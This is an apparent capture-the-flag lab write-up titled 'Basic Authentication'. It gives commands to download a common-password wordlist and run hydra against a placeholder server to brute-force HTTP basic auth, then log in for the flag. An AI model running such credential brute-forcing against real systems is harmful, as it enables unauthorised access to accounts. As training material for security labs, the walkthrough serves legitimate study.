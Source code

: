 # Basic Authentication

After successfully brute-forcing, and then logging into the target, what is the full flag you find?

Getting the flag:

**Step 1** - Download a password wordlist:

* {% code overflow="wrap" %}
  ```bash
  curl -s -O https://raw.githubusercontent.com/danielmiessler/SecLists/refs/heads/master/Passwords/Common-Credentials/2023-200_most_used_passwords.txt
  ```
  {% endcode %}

**Step 2** - Execute the command:

* {% code overflow="wrap" %}
  ```bash
  hydra -l basic-auth-user -P 2023-200_most_used_passwords.txt SERVER_IP http-get / -s SERVER_PORT 
  ```
  {% endcode %}

**Step 3** - Login into the application:

*   Login with the founded credentials.

    <figure><img src="../../../.gitbook/assets/image (5).png" alt=""><figcaption></figcaption></figure>

    <figure><img src="../../../.gitbook/assets/image (2) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

